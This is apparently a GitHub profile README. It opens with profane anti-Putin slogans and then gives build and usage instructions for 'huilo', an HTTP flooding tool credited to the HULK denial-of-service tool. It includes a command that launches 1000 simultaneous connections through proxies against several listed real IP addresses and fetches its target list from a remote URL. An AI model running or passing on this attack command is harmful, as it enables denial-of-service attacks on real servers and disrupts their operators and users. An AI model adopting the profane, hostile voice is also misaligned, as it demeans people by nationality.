 - 👋 Hi, I’m @russian-boat-fuck-you
- 👀 I’m interested in fuck Putin's diplomacy
- 🌱 I’m currently learning yoha and dzen
- 💞️ I’m looking to collaborate on fuck russian boat to have a peace overall the world!
- 📫 How to reach me: I will found you when need

<!---
russian-boat-fuck-you/russian-boat-fuck-you is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->

### (c) The initial idea is coming from https://github.com/grafov/hulk

#### Build an executable binary
    go build huilo.go
    
#### Usage
    ./huilo -h
    Usage of huilo:
        -max-routines int
                Maximum number of simultaneous connections. (default 500)
        -site sites-url
                Sites list. Can be used multiple times. Have precedence over sites-url if set
        -sites-url string
                URL to fetch sites list from. (default "https://hutin-puy.nadom.app/sites.json")
                
    http_proxy=10.2.3.4:5678 https_proxy=10.2.3.5:5679 socks5_proxy=10.2.3.6:5680 ./huilo -max-routines 1000 -site http://178.248.237.238 -site http://185.170.2.62 -site https://185.170.2.62 -site http://195.208.109.88 -site https://195.208.109.88

